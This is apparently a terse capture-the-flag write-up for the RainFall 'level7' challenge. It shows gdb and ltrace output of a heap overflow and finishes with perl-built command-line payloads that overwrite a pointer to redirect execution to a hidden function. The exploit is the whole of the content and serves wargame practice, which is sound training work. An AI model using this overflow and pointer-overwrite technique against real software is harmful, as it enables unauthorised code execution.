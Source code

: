 ```
(gdb) info function
All defined functions:
...
0x080484f4  m
0x08048521  main
```

```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz ZZZZ
__libc_start_main(0x8048521, 3, 0xbffff714, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                      = 0x0804a008
malloc(8)                                                                                      = 0x0804a018
malloc(8)                                                                                      = 0x0804a028
malloc(8)                                                                                      = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"...)                                      = 0x0804a018
strcpy(0x46464646, "ZZZZ" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

 ❯ python3 offset.py 46
20
```

"\x90" x 20 . "\x00\x84\x04\x08"
"\xf4\x84\x04\x08"

> ./level7 $(perl -e 'print "\x90" x 20 . "\x00\x84\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')


./level7 $(perl -e 'print "\x90" x 20 . "\x00\x84\x04\x08"') 42


./level7 $(perl -e 'print "\x90" x 20 . "\xe0\x27\xe9\xb7" . "\n"') $(perl -e 'print "\xf4\x84\x04\x08" . "\n"')
